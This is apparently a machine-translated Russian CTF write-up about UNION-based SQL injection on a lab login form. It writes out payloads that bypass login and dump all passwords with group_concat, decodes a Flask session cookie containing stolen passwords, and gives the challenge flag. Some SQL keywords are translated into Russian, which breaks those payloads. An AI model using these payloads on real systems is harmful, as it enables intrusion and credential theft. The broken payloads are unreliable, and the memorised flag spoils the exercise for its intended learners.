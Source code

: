 В этом случае успешное выполнение означает, что приложение успешно войдет в систему, когда будет введено правильное 
 количество столбцов. В других случаях, если включены сообщения об ошибках, может отображаться предупреждение 
 «SELECT слева и справа от UNION не имеют одинакового количества столбцов результата», когда введено неправильное 
 количество столбцов.   

Используя  ' UNION SELECT 1 , 2 -- -  в качестве имени пользователя, мы сопоставляем количество столбцов в исходном 
запросе SQL , и приложение позволяет нам войти. После входа в систему мы видим, что имя пользователя заменено целым 
числом 2, которое мы использовали в качестве второго столбца во внедренном запросе.     



То же самое касается имени пользователя в сеансовом cookie. Расшифровав его, мы увидим, что имя пользователя было 
заменено тем же значением, что и выше. 
```commandline
{
    " challenge2_user_id " :  1 ,
    " challenge2_имя_пользователя " :  2
}
```

Перечислите базу данных, чтобы найти таблицы и столбцы, как мы делали в Задании 2 Введение в SQL- инъекцию. Для 
этого может быть полезна шпаргалка, например  PayloadsAllTheThings  . Целью задачи было выгрузить все пароли, чтобы 
получить флаг, поэтому в этом случае мы предположим, что имя столбца —  password  , а имя таблицы —  users . 
Используя эту логику, можно выгрузить пароли с помощью следующего кода:

`'  UNION  SELECT  1 ,  пароль  от  пользователей -- -`
Однако предыдущее выражение вернет только один пароль. Функция group_concat() может помочь достичь цели 
одновременного сброса всех паролей.  
Вставив следующий код в поле имени пользователя:

`'  ОБЪЕДИНЕНИЕ  ВЫБЕРИТЕ  1 , group_concat ( пароль )  ОТ  пользователей -- -`
Все пароли сброшены:


Пароли также можно получить, расшифровав cookie-файл сеанса Flask:
```commandline
{
    " challenge2_user_id " :  1 ,
    " challenge2_username " :  " rcLYWHCxeGUsA9tH3GNV,asd,Лето2019!,345m3io4hj3, THM {AuTh2} ,viking123 "
}

```

Задача
Воспользуйтесь уязвимой формой входа и получите флаг.
### Ответить на вопросы ниже
```commandline
# task 5
http://10.10.255.151:5000/challenge2/login?next=http%3A%2F%2F10.10.255.151%3A5000%2Fchallenge2%2Fhome
profileID:' UNION SELECT 1,group_concat(password) FROM users-- -
THM{fb381dfee71ef9c31b93625ad540c9fa}
```
Какой флаг у этого испытания?
```commandline
THM{fb381dfee71ef9c31b93625ad540c9fa}
```